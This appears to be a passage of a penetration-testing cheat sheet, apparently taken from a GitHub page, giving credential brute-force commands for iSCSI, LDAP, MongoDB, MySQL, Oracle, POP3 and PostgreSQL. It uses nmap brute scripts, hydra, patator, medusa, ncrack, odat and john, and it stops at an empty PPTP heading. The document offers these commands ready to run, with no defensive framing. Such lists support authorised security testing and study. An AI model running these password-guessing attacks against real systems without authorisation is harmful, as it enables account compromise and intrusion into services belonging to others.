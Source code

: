 ### ISCSI

	nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>

### LDAP
	
	nmap --script ldap-brute -p 389 <IP>
	
	hydra -L users.txt -P passwords.txt $ip ldap2 -V -f

### Mongo

	nmap -sV --script mongodb-brute -n -p 27017 <IP>

### MySQL

	hydra -L usernames.txt -P pass.txt <IP> mysql

### OracleSQL

	pip3 install cx_Oracle --upgrade

	patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017

	./odat.py passwordguesser -s $SERVER -d $SID

	./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

	nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>

	nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30

	john hashes.txt

### POP3

	hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V

	hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V

### PostgreSQL

	hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
	
	medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres
	
	ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432
	
	patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt
	
	nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>

### PPTP
